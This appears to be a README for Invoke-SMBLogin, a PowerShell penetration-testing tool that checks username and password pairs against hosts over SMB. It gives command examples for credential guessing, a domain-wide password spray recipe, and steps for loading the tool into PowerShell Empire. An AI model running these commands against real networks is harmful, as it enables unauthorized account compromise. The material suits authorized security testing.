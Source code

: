 # Invoke-SMBLogin #
Validates username &amp; password combination(s) across a host or group of hosts using the SMB protocol.

The script will attempt to mount the C$ administrative share  on a remote host (s) using a username & password combination (s).
It will interpret the results of the attempt and print a table on the console with the results.

## Examples ##

Depending on the type of parameter ( a single item, comma separated items or a text file ) the script will run through all the iterations.
	
```
PS C:\> Invoke-SMBLogin -ComputerName host01 -UserName bsimpson -Password Passw0rd1
PS C:\> Invoke-SMBLogin -ComputerName host01 -UserName bsimpson -Password "Passw0rd1,Passw0rd2,Passw0rd3"
PS C:\> Invoke-SMBLogin -ComputerName "host01,host02,host03" -UserName bsimpson -Password "Passw0rd1,Passw0rd2,Passw0rd3"
```

```  
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName hosts.txt -UserName Administrator -Password Passw0rd1
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName host01 -UserName users.txt -Password Passw0rd1
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName host01 -UserName users.txt -Password passwords.txt
```
```
PS C:\> Invoke-SMBLogin -ComputerName hosts.txt -UserName Administrator -Password "Passw0rd1,Passw0rd2"

ComputerName Username              Password  Result
------------ --------              --------  ------
192.168.1.1  builtin\Administrator Passw0rd1 Failed
192.168.1.1  builtin\Administrator Passw0rd2 Failed
192.168.1.2  builtin\Administrator Passw0rd1 Failed
192.168.1.2  builtin\Administrator Passw0rd2 Success
```  
This will perform a password spray attack across all domain users using Winter2019 against a host in the domain. It could be a DC or any other member server/workstation as long as it has SMB open.
```
PS C:\> Get-ADUser -Filter * | Select-Object SamAccountName > users.txt
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName AnyDomainHost -UserName users.txt -Password Winter2019
```  

## Using Invoke-SMBLogin with Powershell Empire ##

To use Invoke-SMBLogin from a Powershell Empire agent, you have to copy the Powershell script and the Empire module python script to the Empire folder:

- Invoke-SMBLogin.ps1 to **data/module_source/situational_awareness/network/**
- smblogin.py to **lib/modules/powershell/situational_awareness/network/**

### Update December 2019

Invoke-SMBLogin was added the the Empire 3.0 project (https://github.com/BC-SECURITY/Empire/) maintained by https://twitter.com/BCSecurity1


